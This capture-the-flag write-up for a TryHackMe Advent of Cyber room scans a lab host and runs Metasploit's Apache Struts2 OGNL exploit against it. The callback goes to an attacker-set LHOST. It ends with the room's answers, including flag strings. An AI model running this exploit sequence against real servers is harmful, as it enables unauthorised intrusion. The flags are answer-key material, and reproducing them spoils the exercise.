

# [Day 10] Metasploit-a-ho-ho-ho Writeup
### Tags: `#Linux Webapp #Metasploit #Meterpreter`
#### [Machine Link](https://tryhackme.com/room/25daysofchristmas)


## Walkthrough

1.) Lets ping the machine to see if it is up and running.

```bash
ping 10.10.173.247
```


2.) Lets run a nmap scan on the machine to enumerate all services on open ports.

```bash
nmap -A 10.10.173.247
```


3.) Lets take a look at the Apache webapp running on port 80. The home page redirects to /showcase.action, this seems unique.


4.) Using google, lets search for apache showcase.action and see if we can find any results for exploits that we can use. The 4th result from www.rapid7.com seems like a good fit because Rapid7 is the developers of Metasploit.



5.) Using the CLI tool searchsploit, which is a local version of the exploitDB maintained by OffSec. We can see the exploits listed for Apache Struts.


6.) Using Metasploit, lets execute the struts2_content_type_ognl exploit.

```bash
msfconsole

search struts2

use 6

show options
```


7.) When using Metasploit, we need to set all the required options before trying to execute the exploit on the machine.

```bash
set RHOSTS 10.10.173.247

Set RPORT 80

set TARGETURI /showcase.action

set LHOST 10.13.37.142
```


8.) With all the required fields set within Metasploit, we can execute the exploit by running the command run.


## Tasks
| Task | Question | Answer |
| --- | --- | --- |
| Task #1 | What port is SSH running on? | 65534 |
| Task #2 | Find and run a file as igor. Read the file /home/igor/flag1.txt | THM{d3f0708bdd9accda7f937d013eaf2cd8} |
| Task #3 | Find another binary file that has the SUID bit set. Using this file, can you become the root user and read the /root/flag2.txt file? | THM{8c8211826239d849fa8d6df03749c3a2} |


